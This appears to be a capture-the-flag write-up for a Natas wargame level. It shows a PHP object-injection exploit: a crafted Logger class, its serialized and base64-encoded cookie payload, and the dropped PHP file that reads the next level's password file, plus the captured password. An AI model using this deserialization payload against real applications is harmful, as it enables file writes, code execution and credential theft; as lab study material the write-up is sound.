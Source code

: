 First, I made my own malicious Logger class:

``` php
<?php
class Logger{
        private $logFile;
        private $initMsg;
        private $exitMsg;
      
        function __construct(){
            // initialise variables
            $this->initMsg="pwn";
            $this->exitMsg= "<?php echo readfile('/etc/natas_webpass/natas27');?>";
            $this->logFile = "img/pass.php";
        }                                            
      
        function __destruct(){
            // write exit message
            $fd=fopen($this->logFile,"a+");
            fwrite($fd,$this->exitMsg);
            fclose($fd);
        }                       
    }
$myobj = new Logger();
echo base64_encode(serialize($myobj));
?>
```

This code I wrote and tested on my local machine, first with local files, to see that it behaves as I want it to. When that was done, I used PHP to serialize and base64 encode it, so I can paste it in the cookie, and this is how it looks like:

* serialized:

``` plain
O:6:"Logger":3:{s:15:"LoggerlogFile";s:12:"img/pass.php";s:15:"LoggerinitMsg";s:3:"pwn";s:15:"LoggerexitMsg";s:52:"<?php echo readfile('/etc/natas_webpass/natas27');?>";}
```

* base64 encoded: 

``` plain
Tzo2OiJMb2dnZXIiOjM6e3M6MTU6IgBMb2dnZXIAbG9nRmlsZSI7czoxMjoiaW1nL3Bhc3MucGhwIjtzOjE1OiIATG9nZ2VyAGluaXRNc2ciO3M6MzoicHduIjtzOjE1OiIATG9nZ2VyAGV4aXRNc2ciO3M6NTI6Ijw/cGhwIGVjaG8gcmVhZGZpbGUoJy9ldGMvbmF0YXNfd2VicGFzcy9uYXRhczI3Jyk7Pz4iO30=
```

In my Logger class I just removed what wasn't necessary from the original code, and made the modifications so that the script will create a PHP file inside the *img/* directory, with this code inside it:

``` php
<?php echo readfile('/etc/natas_webpass/natas27');?>
```

And after changing the cookie and navigating to pass.php, the code gets executed and spits the password: <code>55TBjpPZUUJgVP5b3BnbG6ON9uDPVzCJ</code>
